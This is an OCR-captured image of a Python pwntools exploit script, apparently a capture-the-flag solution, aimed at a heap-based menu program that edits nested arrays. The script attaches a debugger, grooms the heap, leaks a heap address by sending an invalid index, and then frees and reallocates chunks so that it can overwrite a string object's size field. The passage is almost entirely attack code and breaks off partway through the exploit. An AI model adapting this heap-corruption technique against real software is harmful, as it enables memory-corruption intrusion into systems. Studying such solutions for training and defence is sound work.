 ``` python
        s.sendline(b"v")
        s.recvuntil(b"value: ")
        s.sendline(str(num).encode())
    else:
        s.sendline(num)

def show(s):
    s.sendline(b"2")
    r = s.recvuntil(b"Exit\n> ")
    return r

gs = f'''
b *{bp["ret_main"]}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main(server, port, debug):
    if(port):
        s = remote(server, port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)
    log.info(f"root : 0x5555555592a0")
    
    s.recvuntil(b"Exit\n> ")

    edit(s, 'u', [], 'a', 1)
    edit(s, 'u', [0], 'a', 4)
    edit(s, 'u', [0, 0], 'a', 4)
    edit(s, 'u', [0, 1], 'a', 4)
    edit(s, 'u', [0, 2], 'a', 4)
    edit(s, 'u', [0, 3], 'a', 4)
    
    # overwrite arr_t.count of [0, 1]
    edit(s, 'd', [0, 0, 4])
    edit(s, 'u', [0, 0, 4], 'a', 1)
    
    # heap leak
    s.sendline(b"1")
    s.sendlineafter(b"index: ", b"0")
    s.sendlineafter(b"> ", b"1")
    r = s.sendlineafter(b"index: ", b"10")      # invalid index to return menu
    
    heap = int(r.split(b"ARRAY(")[3].split(b")>")[0]) - 0x470
    log.info(f"heap : {hex(heap)}")

    # free [0, 0, 4] (0x20 chunk) and reallocate it to [0, 2, 0] (str_t, also 0x20)
    edit(s, 'd', [0, 0, 4])
    edit(s, 'u', [0, 2, 0], 'v', "A" * 0x10)
    edit(s, 'u', [0, 2, 1], 'v', "B" * 0x10)
    edit(s, 'u', [0, 2, 2], 'v', "C" * 0x10)

    # now that [0, 2, 0] is where [0, 0, 4] was, overwrite str_t.size of [0, 2, 0]
    edit(s, 'd', [0, 3, 4])
    edit(s, 'u', [0, 3, 4], 'v', 0x1000)
```